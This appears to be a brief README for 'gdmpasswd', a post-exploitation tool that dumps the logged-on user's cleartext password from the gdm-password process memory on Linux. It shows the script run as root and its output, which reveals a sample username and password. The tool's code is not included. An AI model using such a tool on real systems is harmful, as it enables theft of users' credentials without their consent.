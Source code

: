 # gdmpasswd
Dumps the currently logged on users' password from gdm-password process memory.

```
root@pwnd:~# ./gdmpassword.sh
          __                                               __ 
.-----.--|  |.--------.-----.---.-.-----.-----.--.--.--.--|  |
|  _  |  _  ||        |  _  |  _  |__ --|__ --|  |  |  |  _  |
|___  |_____||__|__|__|   __|___._|_____|_____|________|_____|
|_____|               |__|                                    

USERNAME: root 
PASSWORD: r00tp@ss89!
```
